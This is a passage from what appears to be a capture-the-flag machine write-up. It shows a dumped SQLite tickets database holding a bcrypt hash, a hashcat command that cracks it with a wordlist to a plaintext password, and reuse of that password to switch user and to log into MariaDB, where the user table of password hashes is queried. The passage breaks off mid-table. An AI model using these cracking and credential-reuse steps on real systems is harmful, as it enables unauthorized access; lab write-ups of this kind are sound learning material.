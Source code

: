 Output:

```text
T5Tite format 3@  .WJ
   tableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)       tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
Gjoshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

joshua  users
             ickets
r]rh%%Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open ;wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

So we found a sql file under `/var/www/contact/tickets.db` path. We can see some important info of `sqlite3` db and we can see a bcrypt password. Let's try to crack it using hashcat.

```bash
hashcat -a 0 -m 3200 '2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' ~/SecLists/rockyou.txt
```

craked:

```txt
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

we can now `su joshua` and insert the cracked password.


# ROOT

We have mariadb which is up and running on our machine.
We can try to login in mysql db using the same password and the same user.

`mysql -h 0.0.0.0 -P 3306 -pspongebob1 -ujoshua`

We have a table called user which contains password for root and dor joshua.

```sql
select * from user;

+-----------+-------------+-------------------------------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+------------+------------+--------------+------------+-----------------------+------------------+--------------+-----------------+------------------+------------------+---------
-------+---------------------+--------------------+------------------+------------+--------------+------------------------+---------------------+----------+------------+-------------+--------------+---------------+-------------+-----------------+----------------------+-----------------------+-------------------------------------------+------------------+---------+--------------+--------------------+
| Host      | User        | Password                                  | Select_priv | Insert_priv | Update_priv | Delete_priv | Create_priv | Drop_priv | Reload_priv | Shutdown_priv | Process_priv | File_priv | Grant_priv | References_priv | Index_priv | Alter_priv | Show_db_priv | Super_priv | Create_tmp_table_priv | Lock_tables_priv | Execute_priv | Repl_slave_priv | Repl_client_priv | Create_view_priv | Show_vie
w_priv | Create_routine_priv | Alter_routine_priv | Create_user_priv | Event_priv | Trigger_priv | Create_tablespace_priv | Delete_history_priv | ssl_type | ssl_cipher | x509_issuer | x509_subject | max_questions | max_updates | max_connections | max_user_connections | plugin                | authentication_string                     | password_expired | is_role | default_role | max_statement_time |
```